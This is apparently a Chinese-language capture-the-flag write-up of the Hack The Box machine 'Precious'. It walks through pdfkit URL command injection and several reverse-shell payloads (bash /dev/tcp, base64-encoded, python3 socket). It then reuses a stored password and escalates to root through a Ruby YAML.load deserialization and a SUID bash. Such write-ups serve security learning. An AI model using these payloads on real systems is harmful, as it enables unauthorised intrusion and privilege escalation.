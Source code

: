## 扫描
```bash
ports=$(nmap -n -Pn -sS  -p- <ip> --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
nmap -v -n -sC -sV -p ${ports} <ip> -oN Precious.nmap
```

只扫出22、80端口。


## 漏洞分析

22端口（openssh 8.4p1 debian 5+deb11u1 (protocol 2.0)）找了一下似乎无漏洞。

### 80端口
访问网页无显示，URL会跳转到 `precious.htb`，将其加入hosts文件后即可访问。

- 无robots  
- 网页源码无发现  
- 目录枚举无发现  
- 网页功能似乎是将网页转pdf  

#### 研究网页功能

尝试几个网址无特别反应，似乎一定要 `http://` 或 `https://` 开头，且一直报错说不能用remote URL。

*迷茫……看了眼Forum说既然不能用remote那可以试试local……*

尝试本地用python开启http服务，随便建立一个文本，回到网页输入自己的URL。  
会弹网页新标签显示刚刚文本的pdf。  
又试了下将文本改为html，里面插入js的 `alert(1)`。再次访问，弹出pdf顺便js也有反映。不过XSS不大熟，止步于此……

*看Forum的提示，似乎要下载pdf看看属性。*

下载pdf，属性里没找到啥。  
`strings` 命令看到 **pdfkit**，搜了下有[PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)。
        
尝试 `` http://<ip>/?name=#{'%20`sleep 5`'} ``。有效，5秒后会直接显示web根目录下的内容。  
*后来才发现下载完pdf后，get shell其实并不必一直用local URL。直接 `` http://example.com/?name=#{'%20`sleep 5`'} `` 也行。*


## foothold
- 尝试反弹shell（无效）  
```
http://<ip>/?name=#{'%20\`bash -i >& /dev/tcp/<ip>/<port> 0>&1`'} 
```

- 试一下base64（无效）  
``` 
http://<ip>/?name=#{'%20`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d`'} 
```  

- 套一层shell执行（无效）  
```
http://<ip>/?name=#{'%20`bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d"`'} 
```  

- python3可以  
```
http://<ip>/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`'} 
```

*不过后来回顾的时候，在本地试了一下无效的那几个：*  
*第一个报错：没有那个文件或目录: /dev/tcp/&lt;ip&gt;/&lt;port&gt;。*  
*第二、三个报错：>&: 没有那个文件或目录。*  
*而base64尝试这个可以： `` http://example.com/?name=#{'%20`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d|bash`'} `` (不知道为什么 `|sh` 不行)*

get shell后，`id` 是ruby账户。

### 升级为交互式shell
```bash
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```


## get user flag 
home目录有用户 `henry`，ruby家目录 `.bundle/config` 里有其密码。  
转到henry账号，其家目录有flag。


## get root shell
### PoC
henry的 `sudo -l`，有root权限无密码执行 `/usr/bin/ruby /opt/update_dependencies.rb`  

`update_dependencies.rb` 文件里面有load文件（`YAML.load(File.read("dependencies.yml"))`），谷歌：ruby yaml.load file exploit  
找到[PoC文章](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)（最下面有github的payload）

复制 /opt/sample/dependencies.yml (到家目录)并将payload写入。  
```
sudo /usr/bin/ruby /opt/update_dependencies.rb
``` 
执行后有回显id命令的结果是root。


### 方法1：sudo反弹root shell
注入 `"bash -c 'bash -i >& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0>&1'"`  

- 只有 'bash -i >& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0>&1' 的话会有"bad fd"报错

### 方法2：给bash命令添加SUID
注入 `"chmod +s /bin/bash"`，然后执行 `bash -p` 即可获得附加了root的shell  

- *ref: https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup*

### 方法3：命令执行
后来想想，由于只是单纯拿flag

- 可以直接注入 `"bash"` 拿root shell
- 或者直接注入 `"cat /root/root.txt"` 拿flag


## get root falg
`cat /root/root.txt`

---

## 后记
2022/12/4  
其实算是第一次正经打HTB，以前稍微试了下还是觉得Web渗透知识不够的话有点难。  
主要是看这两天群友讨论Precious，然后也有大佬们给出提示，所以想着既然有提示那么我也想要尝试一下……  

想想这个靶机打了好几个小时，还是有点超出自己的实力范围了。不过回顾起来又觉得其实没那么难，很多知识都有接触过，还是实战经验太少了吧。  
围观群里讨论也学到了很多细节，比如get shell前应该先判断环境（如用 `which python python2 python3`）。自己这次就是乱试了几个偶然用python3反弹到了。  

不过[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)的命令执行似乎有限，有些命令并无/或者自己不知道哪里有回显（如 `id`）。后来搜wp时发现[另一个类似的注入方式](https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup)， `` http://10.10.XX.XX/?name=%20`id` `` 可在用local URL时在网页回显。也不知道为何明明看的是同一个[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)，为什么会想到把 `#{}` 删掉……